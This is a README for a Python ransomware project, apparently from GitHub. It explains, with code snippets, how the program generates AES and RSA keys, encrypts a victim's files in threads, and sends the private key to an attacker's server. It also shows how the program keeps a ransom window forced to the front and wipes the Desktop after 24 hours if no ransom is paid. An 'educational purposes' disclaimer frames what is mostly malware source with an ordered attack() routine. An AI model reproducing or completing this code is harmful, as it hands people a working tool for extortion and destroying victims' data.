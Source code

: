 # Ooofieware - A ransomware in Python

![RansomWindow](./assets/ransom.png)

## :pushpin: Quick Start

First, make sure the `.show_sym_key` method in `oofieware.py` is commented out. This method is meant only for debugging purposes, as it writes the symmetric AES key used to encrypt the files to the Desktop.

Run oofieware.py.

## :biohazard: Introduction 

This is a ransomware purely written in Python. It contains all the features a real ransomware might need, such as sending the private RSA key to a remote server, automatically erasing the system after 24 hours if a ransom is not paid, and of course a window with a skull that refuses to go away.

I wrote this as I've been hearing of ransomware for sometime, but never tried to write it myself. So I finally overcame my procrastination and wrote this.

Note that this ransomware is meant for EDUCATIONAl purposes only. In the process of writing this, I educated myself on how ransomware code works, and had to think from the perspective of a malicious actor to make it as realistic as possible. I do not support or condone any criminal activity, and I am not responsible for the actions of anyone who might use this.

Before we delve into the code, special thanks to [@w3w3w3](https://github.com/ncorbuk) for inspiring me to write this. I took reference from his ransomware, though of course I added some of my own features and ways of doing things. The things we can learn from the code of others never ceases to amaze me.

## :computer: Diving into the code

The ransomware is written using OOP, and all the methods are defined in a central class. Let's take a look at some of the methods. I will not be going through everything, only the parts I feel needs more explaining.

Firsly, in `__init__`, there is an arg called gen_rsa that defaults to True. If set to False, the attacker can ship the ransomware with a preset public key, which is used to encrypt the AES-256 symmetric key which was used to encrypt the vistim's files. If left as the default, the victim's machine is used to generate the RSA keys, the private one of which will be sent via a POST request to the attacker's server.

### gen_sym_key()

```py
secure_pw = os.urandom(32)
salt = os.urandom(16)

kdf = PBKDF2HMAC(
    algorithm=hashes.SHA256(),
    length=32,
    salt=salt,
    iterations=500000,
)

self.key = base64.urlsafe_b64encode(kdf.derive(secure_pw))
```

For `gen_sym_key()`, I used this method to generate the AES-256 key instead of directly using Fernet.generate_key() as this gives a more secure key.

### crypt_system()

```py
if not (os.stat(file_path).st_size > self.LARGE_SIZE):
    self.crypt_file(file_path)
else:
    t = threading.Thread(target=self.crypt_file, args=(file_path,))
    self.threads.append(t)
    t.start()
```

This snippet checks the size of the file. If the file is larger than `self.LARGE_SIZE` (which is defined as 50 mil bytes, or 50mb), the encryption for that file is started in a separate thread to improve efficiency.

### wait_till_finish()

As can be seen in the example above, each thread is appended to the array `self.threads`.

```py
def wait_till_finish(self):
    for thr in self.threads:
        thr.join()

    self.threads = []
```

The method I originally set to directly run after crypt_system was `enc_key()`, which encrypts the symmetric key with the public key. And it sets the `self.encrypter` object, which is used to encrypt files, to none. This causes a potential exception as when the `self.encrypter` object is set to None, one/multiple of the threads used to encrypt files > 50MB may still be running, so setting the `self.encrypter` object to None stops the encryption of these large files and causes an exception. Hence, I added this `wait_till_finish` method, which takes the threads previously appended to `self.thread`s and applies the `.join()` method to them, effectively blocking the main loop from proceeding to `enc_key` until all the large files have been encrypted as well. This prevents the exception and ensures that the encryption is completed. 

self.threads is then set to None to facilitate later decryption of the system.

### elevate_ransom_window()

```py
while True:
    topWindow = pg.getActiveWindow()
    if topWindow.title != "Ransom Note":
        try:
            win = pg.getWindowsWithTitle('Ransom Note')[0]
            win.minimize()
            win.restore()
        except:
            continue
    sleep(10) # take away completely to annoy the fuck out of victim
```

This constantly makes the ransom window the top window with fullscreen enabled. However, for debugging purposes, a sleep(10) is introduced. If this sleep(10) is removed, the victim's computer would be essentially inoperable due to this window repeatedly forcing itself to the front. At least until perhaps the victim shuts down the computer. Still, that does not change the fact that their files would already be encrypted, as the ransom window only shows itself WHEN all files have been encrypted.

Note that `elevate_ransom_window` is started in a separate thread and is started before `show_ransom_window()`, so that it does not interfere with the blocking call `window.mainloop` that is used in `show_ransom_window()`. The same is true for the method `detect_dec_key`.

### detect_dec_key()

This method is also called in a separate thread before `show_ransom_window()`. It scans the victim's Desktop every 5 seconds to check if a decryption key has been given, and if one is given, the decryption of the files will begin.

### show_ransom_window() and erase_system()

`show_ransom_window` shows the ransom window, which is made using the python module [Tkinter](https://docs.python.org/3/library/tkinter.html). However, there is one part I would like to explain.

```py
eraseTimer = threading.Timer(60*60*24, self.erase_system)
eraseTimer.start()
```

```py
def erase_system(self):
    for root, dirs, files in os.walk(self.Desktop, topdown = True):
        try:
            shutil.rmtree(os.path.join(root, dirs))
        except OSError as e:
            pass
```

This starts a timer in a separate thread, a timer that erases the victim's entire Desktop and all the folders and files inside it after 24 hours, if the ransom is not paid. The erase_system() is what will be called after 24 hours.

### The Order

```py
def attack():
    oof = oofieWare(gen_rsa = True)
    oof.gen_sym_key()
    oof.gen_rsa_keypair()
    oof.crypt_system()
    oof.show_sym_key() # for debugging purposes, DON'T use this line irl
    oof.wait_till_finish()
    oof.encrypt_key()
    elevate = threading.Thread(target = oof.elevate_ransom_window)
    elevate.start()
    detect = threading.Thread(target = oof.detect_dec_key)
    detect.start()
    oof.show_ransom_window()
    
attack()
```

Methods should be called in the pre-defined order to prevent any unexpected occurences. Note that `show_sym_key()` is only for debugging and should not be used in an actual attack.

## :keyboard: Fin

I hope you find this useful. Take care and remember not to run this by accident on your host OS!